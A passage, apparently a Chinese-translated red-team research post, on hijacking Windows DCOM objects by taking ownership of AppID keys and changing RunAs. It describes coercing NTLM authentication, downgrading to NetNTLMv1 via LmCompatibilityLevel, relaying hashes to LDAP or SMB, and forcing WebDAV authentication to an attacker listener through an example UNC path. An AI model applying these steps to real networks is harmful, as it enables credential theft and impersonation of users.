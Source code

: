 并非所有具有 AppID 的 DCOM 对象都将 RunAs 值设置为 Interactive User  
。事实上，大约一半的 AppID 根本没有设置 RunAs 值。但是，如果 RunAs 值可以被添加或修改以满足我们的目的呢？  
  
默认情况下，注册表中的 AppID 受自由访问控制列表 (DACL) 保护，授予 TrustedInstaller  
 所有权权限，并将本地管理员限制为只读访问，如图 1 所示。  
  
![AppID 默认 DACL 设置的截图](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCMOrJ5glbHvfqL39ib8UoWC6jgZoDcqGAMxJpqBTY17iaAL0ttyCfOsNDgyg2BsWMed6nkR1qkghkxg/640?wx_fmt=png&from=appmsg "")  
  
AppID 默认 DACL 设置的截图  
  
然而，本地管理员被授予   
SeTakeOwnershipPrivilege  
 权限，这允许他们获取系统对象的所有权，包括注册表键。此权限与此攻击相关，因为它使我们能够更改 AppID 的所有权。一旦所有权被更改，我们就可以授予自己对 AppID 的 完全控制  
 权限，并随后修改其设置以添加或更改 RunAs 值。  
  
一旦 RunAs 值被修改为 Interactive User  
，攻击就变得简单明了。这使我们能够强制 DCOM 对象在另一个活动会话的上下文中运行。然而，此攻击的成功最终取决于目标 DCOM 对象暴露的属性和方法。  
## NTLM 认证强制攻击  
  
现在我们知道可以将 DCOM 对象转换为会话劫持工具，下一步是确定可以利用哪些方法和属性来完成劫持。在这项研究中，我探索了是否可以在不运行载荷的情况下实现用户入侵 - 这与大多数  
公开的 DCOM 横向移动技术  
采取了不同的方法。  
  
我专注于以"无文件"格式实现类似的结果，这意味着无需在目标系统上传输或执行载荷。这种区别很重要，因为在目标系统上传输和运行载荷通常被认为是红队操作中的"昂贵"行为。通过避免这一步，触发常见安全控制的风险显著降低。因此，我旨在通过 DCOM 强制远程用户账户进行 NTLM 认证。  
  
与传统横向移动技术相比，强制 NTLM 认证有几个关键优势：  
- 捕获 NTLMv1/NTLMv2 哈希并尝试离线破解  
  
- 将 NTLMv1 或 WebDAV NTLMv2 哈希中继到其他网络服务，如 LDAP 或 SMB，以受影响用户的身份执行操作  
  
- 避免在目标系统上传输和运行载荷，这通常会引发安全工具的更多审查  
  
- 避免接触 LSASS 进程，从而降低检测风险  
  
截至本文撰写时，LDAP 签名和通道绑定在大多数域控制器上不是默认要求和强制执行的。这些安全功能仅在 Windows Server 2025 上是强制性的。这意味着如果我们能够从目标系统强制进行 NTLMv1 或 WebDAV 认证，我们就可以将其中继到 LDAP 并以受影响用户的身份执行操作。同样，SMB 签名在 Windows 服务器上默认不是必需的，域控制器除外。  
  
另一个重要的考虑是，NTLMv1 哈希可以使用彩虹表轻松破解，截至 2024 年 12 月，Nic Losby 已经  
公开分享了这些表  
。这些表大大减少了从 NTLMv1 哈希中恢复 NTLM 凭证所需的时间和精力。为了获得 NTLMv1 哈希而不是 NTLMv2 哈希，我们在目标系统上修改以下注册表键：  
- HKLM\System\CurrentControlSet\Control\Lsa\LmCompatibilityLevel  
  
将 LmCompatibilityLevel 设置为 2 或更低的值会强制系统回退到 NTLMv1 进行认证。此修改需要本地管理员权限，通常被称为"NetNTLMv1 降级攻击"。  
  
或者，我们可以捕获 WebDAV 认证并将其中继到 LDAP，因为基于 HTTP 的认证可以转发到此服务。如果 WebClient 服务尚未以特权访问运行，我们可以在目标系统上远程启用它。一旦启用，我们可以通过指定 UNC 路径中的机器 NetBIOS 名称来强制 WebDAV NTLM 认证到我们的监听器。例如：  
- \MYHACKERBOX@80\giveme\creds.txt  
  
有关 NTLM 中继攻击以及可以中继到不同端点的协议的更多信息，请参阅以下资源  
这里  
。  
## ServerDataCollectorSet DCOM 对象  
  
在研究过程中，我分析了 CLSID 为 {03837546-098B-11D8-9414-505054503030}  
 的 ServerDataCollectorSet  
 DCOM 对象，以识别可用于认证强制的 Methods 和 Properties。其中，DataManager  
 属性引起了我的注意，幸运的是，这个 COM 对象包含一个 Type Library，它更详细地定义了其 Methods 和 Properties。  
  